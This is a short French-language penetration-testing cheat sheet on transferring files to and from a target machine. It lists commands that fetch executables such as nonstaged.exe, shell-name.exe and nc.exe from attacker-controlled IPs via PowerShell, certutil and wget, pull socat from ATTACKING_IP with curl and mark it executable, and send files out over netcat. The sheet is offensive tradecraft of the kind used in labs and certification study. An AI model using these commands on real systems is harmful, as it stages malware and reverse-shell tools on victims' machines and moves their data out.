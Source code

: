 ### Serveur Apache

```
sudo systemctl start apache2
```

Remarque :
- Copier les fichier dans  /var/www/html/

### Serveur HTTP Python

```
sudo python -m http.server 8000
```

### Via PowerShell

```
iwr -uri http://192.168.119.2/nonstaged.exe -Outfile nonstaged.exe

powershell "(New-Object 
Net.WebClient).Downloadfile('http://192.168.1.5:8080/shell-name.exe', 'shell-name.exe')"

Invoke-WebRequest -Uri "http://www.coucou.com" -OutFile "C:\path\file"
```

### Via SCP

```
scp cve-xxxx.c test@192.168.123.216:
```

### Via Certutil

```
certutil -f -urlcache http://192.168.1.200:6666/nc.exe nc.exe
```

### Via WGET

```
wget http://IP_ADDRESS:8000/filename -outfile "file"
```

### Via NETCAT

```
nc <MACHINE_IP> <PORT> < fichier.txt
nc -lnvp <PORT> > fichier.txt
```

### Via cURL

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

